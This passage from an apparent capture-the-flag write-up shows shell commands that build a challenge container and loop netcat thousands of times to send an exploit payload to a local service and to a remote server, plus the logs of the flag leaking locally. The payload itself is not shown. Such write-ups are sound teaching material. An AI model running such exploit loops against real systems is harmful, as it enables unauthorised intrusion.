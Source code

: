 ```sh
$ echo 'test{flag}' > flag.txt
$ docker build -t gonnegtions .
$ docker run --rm -d -p '0.0.0.0:4499:1337' --privileged gonnegtions
$ for i in `seq 1 10000`
> do timeout 5 nc localhost 4499 < payload
> done | tee local.log
```

It worked:

```sh
$ grep flag local.log|tail -c 50
here to? Where to? Where to? Where to? test{flag}
```

I moved to try this on remote:

```sh
$ for i in `seq 1 10000`
> do timeout 5 nc 44.193.84.190 1337 < payload
> done | tee remote.log
```

It didn't work.

```sh
$ grep \{ remote.log
$ echo $?
1
```

I ran it again, and I still got no results. After the CTF, I got confirmation from the challenge authors that the heap is rwx on remote. There's a chance I was just really unlucky, but it's also possible that I/O buffering has subtle differences when done with a higher ping.
